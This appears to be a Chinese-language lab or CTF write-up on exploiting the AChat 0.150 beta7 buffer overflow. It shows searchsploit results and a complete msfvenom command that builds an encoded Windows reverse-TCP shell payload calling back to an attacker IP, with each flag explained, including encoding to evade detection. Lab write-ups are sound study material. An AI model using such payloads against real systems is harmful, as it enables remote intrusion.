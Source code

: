 # 漏洞检测与利用

## kali搜索AChat 漏洞

```
┌──(root㉿kali)-[/home/tom/桌面]
└─# searchsploit AChat             
---------------------------------------- ---------------------------------
 Exploit Title                          |  Path
---------------------------------------- ---------------------------------
Achat 0.150 beta7 - Remote Buffer Overf | windows/remote/36025.py
Achat 0.150 beta7 - Remote Buffer Overf | windows/remote/36056.rb
MataChat - 'input.php' Multiple Cross-S | php/webapps/32958.txt
Parachat 5.5 - Directory Traversal      | php/webapps/24647.txt
---------------------------------------- ---------------------------------
Shellcodes: No Results
```

Google寻找exp：https://github.com/mpgn/AChat-Reverse-TCP-Exploit

但是这台靶机的exp不能够使用meterpreter，一进去就死掉，因此要做一些修改，生成payload：

> msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp  RHOST=10.10.10.74 LHOST=10.10.16.3 LPORT=4444 exitfunc=thread -e x86/unicode_upper -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python  解释：
> 
> -a x86 指定架构为 x86，即32位
> 
> --platform Windows 指定目标平台为 Windows。
> 
> -p 指定 payload 类型，这里使用的是 windows/shell_reverse_tcp，即一个反向 TCP shell。
> 
> RHOST 指定目标主机的 IP 地址，即 10.10.10.74。
> 
> LHOST 指定本地主机的 IP 地址，即 10.10.16.3。
> 
> LPORT 指定本地监听的端口，即 4444。
> 
> exitfunc 指定在 payload 执行完毕后使用 thread 方式退出，以保证 payload 能继续执行其他代码。
> 
> -e 指定编码器，这里使用的是 x86/unicode_upper，用于编码 payload 以避开检测机制。
> 
> -b 指定坏字符（bad characters），在编码时这些字符将被避免。这里指定了一长串的坏字符，包括从 \x00 到 \xff 中的所有非 ASCII 字符。
> 
> BufferRegister 指定寄存器用于保存有效负载缓冲区地址，这里是 EAX。
> 
> -f 指定输出格式，这里选择 python，即生成的 payload 将以 Python 代码形式输出。
